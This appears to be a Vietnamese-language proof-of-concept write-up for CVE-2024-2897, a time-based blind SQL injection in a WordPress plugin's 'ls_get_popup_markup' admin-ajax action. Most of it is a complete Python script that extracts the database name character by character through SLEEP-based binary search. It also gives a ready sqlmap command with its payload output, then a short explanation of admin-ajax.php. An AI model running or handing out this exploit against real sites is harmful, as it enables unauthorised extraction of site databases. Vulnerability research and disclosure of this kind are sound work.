
## POC 

Dưới đây là đoạn mã khai thác CVE-2024-2897 bằng python (lấy ra tên DBS). 

```python
import requests
import urllib3
import time
from urllib.parse import quote


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


# Định nghĩa URL ban đầu
base_url = "http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]="


proxy = {
   "http": "http://127.0.0.1:8080",
   "https": "http://127.0.0.1:8080"
}


cheaders = {
   "Host": "0.0.0.0:8000",
   "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
   "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
   "Connection": "close",
   "Upgrade-Insecure-Requests": "1",
}


dataBase = ''


for pos in range(1, 30):  # Giả sử tên cơ sở dữ liệu có độ dài tối đa là 20 ký tự
   l, r = 1, 255  # Khoảng giá trị ASCII in được
   while l <= r:
       mid = (l + r) // 2


       # Tạo và mã hóa payload
       # (select 1 from (select (IF(1=1,sleep (10),1) )) as tmp)
      
       payload = f" (select 1 from (select ( IF(ASCII(SUBSTRING((SELECT database()),{pos},1))<{mid},(sleep (1)), 0) )) as tmp)"
       encoded_payload = quote(payload)  # Mã hóa payload để tránh vấn đề trong URL
       target_url = base_url + encoded_payload


       start_time = time.time()
       res = requests.get(target_url, verify=False, proxies=proxy, headers=cheaders)
       end_time = time.time()


       elapsed_time = end_time - start_time
       # print(f"Testing position {pos}, range {l}-{r}, mid {mid}, elapsed time: {elapsed_time}s")


       if elapsed_time < 1:
           # print("Condition met, adjusting l")
           l = mid + 1
       else:
           # print("Condition not met, adjusting r")
           r = mid - 1
   print(f"found a character at position {l}")
   dataBase += chr(l-1)


   print(f"Found: {dataBase}")  # In tên cơ sở dữ liệu tìm được sau mỗi vị trí ký tự


print(f"Final database name: {dataBase}")

```

Tiếp theo đến khai thác bằng **Sqlmap**: 
```bash
sqlmap -u "localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[columns]=id" --dbs -p id[columns] --threads=10 --time-sec=2 --flush-session 
```
payload: 
Parameter: 

id[columns] (GET)

    Type: time-based blind

    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    
    Payload: action=ls_get_popup_markup&id[columns]=id AND (SELECT 3890 FROM (SELECT(SLEEP(2)))vQYk)
## Chú thích 
(*) Trong WordPress, file admin-ajax.php đóng vai trò xử lý các yêu cầu AJAX từ phía máy khách (client-side) tới máy chủ (server-side). AJAX (Asynchronous JavaScript and XML) là một kỹ thuật phát triển web cho phép các trang web thực hiện yêu cầu đến máy chủ và tải dữ liệu mà không cần phải tải lại toàn bộ trang.

Xử lý Yêu Cầu AJAX: Trong WordPress, cả frontend và backend (dashboard) của trang web sử dụng admin-ajax.php để xử lý các yêu cầu AJAX. Khi một hành động AJAX được kích hoạt bởi người dùng, JavaScript sẽ gửi một yêu cầu HTTP tới admin-ajax.php với các thông tin cần thiết để xử lý yêu cầu đó.

Cầu Nối Giữa JavaScript và PHP: admin-ajax.php làm cầu nối giữa mã JavaScript chạy trên trình duyệt và mã PHP chạy trên máy chủ. Nó nhận các yêu cầu từ JavaScript, xử lý chúng bằng PHP, và trả lại kết quả. Điều này cho phép các nhà phát triển tương tác với cơ sở dữ liệu và thực hiện các logic phức tạp mà không làm gián đoạn trải nghiệm người dùng.


